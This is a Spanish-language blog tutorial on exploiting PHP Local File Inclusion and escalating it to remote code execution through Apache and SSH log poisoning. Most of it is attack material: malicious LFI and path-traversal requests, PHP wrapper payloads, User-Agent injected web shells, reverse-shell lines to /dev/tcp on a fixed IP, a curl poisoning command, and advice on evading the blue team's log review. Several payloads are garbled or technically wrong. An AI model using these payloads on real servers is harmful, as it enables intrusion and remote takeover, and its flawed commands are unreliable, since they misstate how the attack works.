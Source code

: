```yaml
---
title:  "De LFI a RCE - Log Poisoning (SSH, Apache logs)"
header:
  teaser: "https://user-images.githubusercontent.com/69093629/120226864-584ff100-c248-11eb-8809-dabcbeecbddf.png"
categories: 
  - Vulnerabilities
tags:
  - LFI
  - RCE
---
```


Antes de empezar explicando como conseguir RCE explotando una vulnerabilidad de Inclusión de archivos locales, primero necesitamos saber que es y como funciona.
“Local File Inclusion” es una vulnerabilidad que te permite incluir archivos locales a un servidor a causa de una mala programación en cuanto a “back-end”, esta vulnerabilidad está presente en PHP, JSP, ASP entre otros.

## Explotación de la vulnerabilidad

Imaginemos que tenemos este código en un archivo PHP.

```php
<?php 
   $file = $_GET['file'];
   if(isset($file)) 
   { 
   include("$file"); 
   } 
?>
```

Este código es vulnerable a LFI porque estamos declarando el parámetro “file” sin ningún tipo de sanitización, por lo tanto nos permitiría incluir archivos en el servidor.

**Petición Legítima:**

```php
http://192.168.1.144/test.php?file=contact.php
```

**Petición malintencionada:**

```php
http://192.168.1.144/test.php?file=/etc/hosts
```

Como vemos en la segunda petición que tramitamos al servidor web es diferente a la primera, en la segunda estamos explotando un LFI en toda regla, por lo que la respuesta de parte del servidor es un 200 OK, es decir el recurso solicitado existe, en este caso nos devolvería el contenido del archivo “/etc/hosts”.

Hay programadores que reconocen este tipo de vulnerabilidad web e intentan sanitizar el código de alguna manera:

```php
<?php 
   $file = $_GET['file'];
   if(isset($file)) 
   { 
   include("lib/functions/$file");
   }
?>
```

Aquí solo seria cuestión de hacer un “Directory Path Traversal”, es decir volver directorios atrás para apuntar al recurso solicitado “../../etc/hosts”. Cabe decir que este ejemplo es simple, se puede complicar mucho más.

## Wrapper
Un "**Wrapper**" en LFI es una envoltura que incorpora PHP, se introduce en la URL al tramitar la petición al servidor legítimo. Hay distintos tipos de "**Wrappers**" y cada uno para una función en específico, los más comunes son:

```php
expect://: http://192.168.1.144/test.php?file=expect://whoami
filter://: http://192.168.1.144/test.php?file=php://filter/convert.base64-encode/resource=test.php
data://: http://192.168.1.144/test.php?file=data:text/plain;,<?php echo shell_exec($_GET[‘cmd’]);?>
``` 

## ¿Cómo conseguir RCE de un LFI?

Se puede conseguir "**Remote Code Execution**" de distintas formas, pero aquí solo explicaré unas cuantas. En LFI hay una técnica para conseguir RCE llamada "**Log Poisoning**", consiste en envenenarlos .log de Apache o SSH.

Los logs son archivos que dejan registro de lo que haces, un ejemplo seria cuando accedes al servidor web, lo que haces es verificar si el recurso que solicitas existe y eso lo haces mediante una petición de tipo GET, pues eso se queda registrado en estos archivos, cada servicio tiene su propio archivo .log, en este caso nos centraremos solo en Apache y SSH.

Te estarás preguntando ¿Cómo concateno un LFI con un “Log Poisoning”?

**Buena pregunta!!!**, pues es más sencillo de lo que parece. Primero debemos saber cuál es la ruta de estos logs, el archivo de logs de Apache se sitúa en ```/var/log/apache2/access.log``` y el de SSH ```/var/log/auth.log```, le damos permiso de lectura y escritura a la carpeta de los logs de Apache con ```chmod 755/var/log/apache2``` y ```chmod 755 /var/log/auth.log``` para el archivo de los logs de SSH para que podamos visualizar su contenido.
Bien, tenemos medio trabajo hecho, ahora solo faltaría envenenar estos logs, lo que tendríamos que hacer es tramitar una petición a la ruta donde se encuentran los logs y cambiar el “**UserAgent**”, vamos a utilizar “**BurpSuite**” para hacerlo, también se puede utilizar “**Curl**” para más rapidez. Usaré “**BurpSuite**” para ver como se comporta la petición por detrás y sea más claro.

<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/120226068-c09dd300-c246-11eb-9300-198cce165d89.png">
</p>

Como vemos en la foto anterior hemos interceptado la petición con “**BurpSuite**”, ahora la mandamos al “**Repeater**” para modificarla a nuestra manera, cambiamos el “**User-Agent**” y ponemos nuestras sentencias maliciosas en *PHP*:

```php 
<?php system($_GET['sh >& /dev/tcp/192.168.1.144/443 ']); ?>

<?php shell_exec($_GET['cmd']); ?>
```

<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/120226156-efb44480-c246-11eb-8e66-0cea44ec83e8.png">
</p>

Enviamos la petición maliciosa al servidor y…

<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/120226181-ffcc2400-c246-11eb-898c-0b9348b621f5.png">
</p>

Lo malo aquí es que las peticiones se emiten por tipo GET, esto quiere decir que se verían reflejadas en los logs y sería muy fácil para el “**Blue-Team**” pillar-nos, para ponérselos más difícil lo ideal seria cambiar el tipo de petición a POST o REQUEST.

```php
<?php system($_REQUEST['bash >& /dev/tcp/192.168.1.144/443 ']); ?>

<?php shell_exec($_POST['cmd']); ?>
```

Utilizando “**Curl**” sería algo un poco más complejo de entender, pero nada del otro mundo:

```php 
~$ curl -s -X REQUEST -A "<?php system($_REQUEST['whoami']); ?>" "http://192.168.1.144/test.php?file=/var/log/apache2/access.log"
```

Lo que estamos haciendo es enviar una petición por REQUEST para que no se vea reflejada en él *.log* y en modo “**silent**” para no ver la respuesta de lado del servidor, el parámetro “**-A**” es para modificar el “**UserAgent**” a nuestra manera y por último le especifico a que URL quiero enviarla.
Para envenenar los logs de SSH es aún más sencillo, en vez de poner un “**user**” en el campo correspondiente para la conexión con SSH, ponemos la sentencia maliciosa de *PHP* entre comillas simples seguida de una arroba y la IP del sistema.

```php
<?php system(‘whoami’); ?>
```

<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/120226346-4b7ecd80-c247-11eb-817b-8eef893fd0d0.png">
</p>
